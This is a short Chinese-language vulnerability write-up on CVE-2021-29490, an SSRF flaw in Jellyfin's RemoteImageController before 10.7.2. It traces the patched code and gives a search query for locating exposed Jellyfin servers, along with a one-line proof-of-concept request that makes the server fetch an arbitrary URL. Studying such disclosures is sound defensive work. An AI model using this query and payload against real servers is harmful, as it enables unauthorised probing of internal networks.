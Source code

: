 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## 网络测绘

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](./images/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](./images/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](./images/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](./images/202205241459712.png)